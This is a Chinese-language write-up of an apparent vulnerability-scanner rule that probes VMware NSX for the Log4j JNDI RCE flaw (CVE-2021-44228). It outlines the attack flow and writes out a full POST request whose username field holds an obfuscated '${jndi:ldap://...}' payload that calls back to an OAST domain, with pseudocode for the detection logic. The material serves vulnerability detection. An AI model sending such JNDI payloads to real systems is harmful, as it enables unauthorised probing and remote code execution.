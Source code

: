 # VMware NSX - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

VMware NSX 存在 Apache Log4j JNDI 注入远程代码执行漏洞（CVE-2021-44228）。攻击者可通过构造恶意请求，远程执行任意代码，危害系统安全。

## 2. 影响范围

- 受影响产品：VMware NSX（使用受影响 Log4j 版本）
- 只要日志、参数或配置中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时支持 JNDI 查找。攻击者可通过注入特殊payload，诱使 Log4j2 访问恶意JNDI服务器（如LDAP），加载并执行远程代码。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意LDAP服务器，返回恶意Java类。
2. 构造带有JNDI payload的HTTP请求，发送到NSX接口。
3. 日志记录参数时，Log4j2解析payload，触发JNDI查找，访问攻击者LDAP服务器。
4. 恶意Java类被加载并执行，实现RCE。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用OAST/DNSLog平台（如Interactsh）进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送POST请求到如下接口：
  ```
  POST /login HTTP/1.1
  Host: <目标主机>
  Content-Type: application/x-www-form-urlencoded
  Origin: <BaseURL>
  Referer: <BaseURL>/login.jsp

  username=${jndi:ldap://${:-<rand1>}${:-<rand2>}.${hostName}.username.<interactsh-url>}&password=admin&submit=
  ```
  - <rand1>、<rand2>为随机数，<interactsh-url>为OAST平台生成的唯一域名。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 响应头Location需包含`/login.jsp?login_error=1`，确认为NSX登录接口。
- **OAST平台交互**：
  - 若目标存在漏洞，Log4j2解析payload时会向OAST域名发起DNS查询，OAST平台记录该行为。

### 5.3 判定逻辑

- 只有当：
  1. HTTP响应头Location中包含`/login.jsp?login_error=1`，
  2. OAST平台收到带有对应随机标识的DNS查询，
  3. DNS查询格式与payload匹配，
  才判定目标存在Log4j JNDI RCE漏洞。

- **判定流程伪代码**：
  ```pseudo
  rand1, rand2 = 随机生成
  payload = '${jndi:ldap://${:-{rand1}}${:-{rand2}}.{hostName}.username.<oast-domain>}'
  发送POST /login，username字段为payload
  等待OAST平台回调
  若DNS查询中包含rand1, rand2, hostName，且响应头含login_error=1：
      判定目标存在漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的POST请求到/login] --> B{响应头含login_error=1?}
      B -- 否 --> F[非目标, 终止]
      B -- 是 --> C[等待OAST平台DNS回显]
      C --> D{DNS查询中含随机标识?}
      D -- 否 --> F
      D -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [VMware NSX官方公告](https://kb.vmware.com/s/article/87086)
- [Log4j 官方安全公告](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 